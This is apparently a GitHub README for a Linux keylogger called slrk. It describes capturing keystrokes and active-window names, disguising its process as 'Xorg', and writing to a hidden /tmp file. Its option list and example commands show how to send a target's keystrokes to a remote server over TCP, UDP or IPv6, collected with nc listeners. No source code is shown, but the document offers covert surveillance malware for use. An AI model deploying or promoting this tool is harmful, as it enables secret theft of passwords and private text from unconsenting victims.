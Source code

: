 # SimpleLocal&RemoteKeylogger

##DESCRIPTION:

- Simple keylogger that runs on Linux either locally or remotely.
- It shows the active window on which the target is writing.
- It shows the keyboard layout(e.g.: us, it, colemak, etc..).
- Process name is renamed as "Xorg".
- It works with both TCP and UDP and with ipv6 too.
- It must be run as root.

##SYNOPSIS:
```
#./slrk [OPTIONS]
```
##OPTIONS:
```
-d <input-device>:                  If not specified, the default device is '/dev/input/by-path/***kbd'
-o <output-file>:                   It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
-m remote -a <IP-ADDR> -p <PORT>:   It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>
```
##EXAMPLES:

- TCP:
```
Server$ nc -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
- UDP:
```
Server$ nc -u -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
- IPv6:
```
Server$ nc -6 -lvp 8888 > logger.txt
Client#./slrk -m remote -a ::1 -p 8888
```
##NOTES:
####Supported keyboards:
- QWERTY: us, es, it. 
- AZERTY: fr.
- QWERTZ: de.
- DVORAK: us.
- COLEMAK
- default: qwerty-us<br>

You may also change keyboard during `slrk` execution with, for example:
```bash
$setxkbmap dvorak
```
and `slrk` will detects the new layout.


